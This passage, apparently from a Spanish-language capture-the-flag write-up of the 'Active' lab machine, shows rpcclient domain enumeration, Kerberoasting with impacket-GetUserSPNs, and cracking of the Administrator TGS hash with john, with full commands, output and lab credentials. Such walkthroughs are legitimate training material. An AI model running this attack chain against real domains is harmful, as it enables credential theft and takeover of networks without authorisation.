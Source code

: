 Vemos que las credenciales son válidas y ahora tenemos permisos de lectura sobre varios recursos que antes no podíamos del servicio SMB. Ahora podríamos tratar de conectarnos a través de `rpcclient` para obtener información sobre el dominio:

```bash
❯ rpcclient -U "SVC_TGS" 10.10.10.100
Enter WORKGROUP\SVC_TGS's password: 
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[SVC_TGS] rid:[0x44f]
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[DnsUpdateProxy] rid:[0x44e]
rpcclient $> querygroupmem 0x200
        rid:[0x1f4] attr:[0x7]
```

Vemos que el único usuario dentro del grupos `Admins` es `Administrator`. Ahora, con la utilidad `impacket-GetUserSPNs` podemos solicitar un TGS, en este caso del usuario **Administrator**. (**Nota**: En caso de obtener el error `Kerberos SessionError`, nos instalamos `rdate` para sincronizar nuestro relog con el Domain Controller `rdate -n 10.10.10.100`)
.
```bash
❯ impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request -output tgs.hash
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 14:06:40.351723  2021-01-21 10:07:03.723783
```

Como ya tenemos un hash dentro del archivo `tgs.hash`, ya debemos estar pensando en `john`:

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt tgs.hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)
1g 0:00:00:47 DONE (2021-12-05 22:30) 0.02121g/s 223568p/s 223568c/s 223568C/s Tiffani1432..Thehunter22
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
